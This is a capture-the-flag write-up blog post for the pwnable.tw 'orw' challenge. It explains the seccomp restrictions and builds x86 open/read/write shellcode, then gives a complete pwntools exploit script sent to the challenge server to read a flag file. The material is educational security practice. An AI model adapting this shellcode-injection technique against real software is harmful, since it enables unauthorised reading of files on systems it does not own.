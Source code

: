 ```yaml
---
layout: post
title:  "Open Read Write shellcoding"
date:   2019-09-09 10:55:00
categories: experience
---
```


# orw writeup [pwnable.tw]


Challenge description

	Read the flag from /home/orw/flag.
	Only open read write syscall are allowed to use.
	nc chall.pwnable.tw 10001


In this challenge we are given a binary , this is information about 
the binary 
	
	orw: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.32, BuildID[sha1]=e60ecccd9d01c8217387e8b77e9261a1f36b5030, not stripped

And here are some of the protections that are active in this binary

<img src="/images/2019-12-04-135243_511x105_scrot.png">

Yea, the NX protection is disabled , so we can run our code inside the stack segment

## Reverse engineering

Okay we've got some information we need , now it's time to look at the decompilation 
let's open it on ghidra and see the main function

<img src="/images/2019-12-04-140618_359x196_scrot.png">

As you can see , we can input data up to 200 bytes and our input will be stored
at shellcode buffer , and after input the binary will jump to our buffer.
and if you notice that , there is orw_seccomp() function , let's use seccomp-tools 
to gathering more information 

<img src="/images/2019-12-04-141345_527x245_scrot.png">

This binary allow us to use those syscall, so we can try to open the flag inside 
/home/orw/flag and read the value to buffer , and write the buffer.
so it's time to write some asm  , before we write the exploit we have to see syscall code you can use this site
[here](https://syscalls.kernelgrok.com/) and search for sys_open , and this is what we got

<img src="/images/2019-12-04-142625_952x76_scrot.png" class="center" style="width: 800px;">

## Exploit

We have to set eax register to 0x5 and ebx to our file path and more
so firstly to open the file i make assembly code, like this

<img src="/images/2019-12-04-144810_250x246_scrot.png">

It will xor eax with eax so the value will set to 0 and we do the same 
instructions for ecx , and mov eax with 0x5 (sys_open syscall) so now eax value will have
0x5 (sys_open syscall) , and after that i push ecx and the string (as hex) to stack 
and mov ebx with esp 

let's do read 

<img src="/images/2019-12-04-145249_222x159_scrot.png">

Actually we mov eax with 0x3 (sys_read syscall) and mov ecx with ebx ,ecx is our buffer
and mov ebx with 0x3 because fd and mov dl as 0x30 for the size

and finally lets write it out

<img src="/images/2019-12-04-145735_225x117_scrot.png">

mov eax with 0x4 (sys_write syscall) and mov bl with 0x1 for fd 

and don't forget every time we write shellcode that call a syscall we have to use int 0x80 at the end of our shellcode ,  int 0x80 is the assembly language instruction that is used to invoke system calls in Linux on x86 (i.e., Intel-compatible) processors. 

here is my full exploit code :

{% highlight python %}
from pwn import *
def main():
	# sys_open()
	shellcode = asm('''
			xor 	eax, eax
			xor 	ecx, ecx
			mov 	eax, 0x5
			push 	ecx
			push 	0x67616c66       
			push 	0x2f77726f       
			push 	0x2f656d6f       
			push 	0x682f2f2f       
			mov 	ebx, esp
			int 	0x80
		''')
	# sys_read()
	shellcode += asm('''
			mov 	eax, 0x3
			mov 	ecx, ebx
			mov 	ebx, 0x3 
			mov 	dl, 0x30
			int 	0x80
		''')
	# sys_write()
	shellcode += asm(''' 
			mov 	eax, 0x4
			mov 	bl, 0x1
			int 0x80
		''')
	#r = process("./orw")
	r = remote("chall.pwnable.tw",10001)
	r.sendline(shellcode)
	r.interactive()
if __name__ == '__main__':
	main()
{% endhighlight %}


And here is our flag :
<img src="/images/2019-12-04-151953_496x97_scrot.png">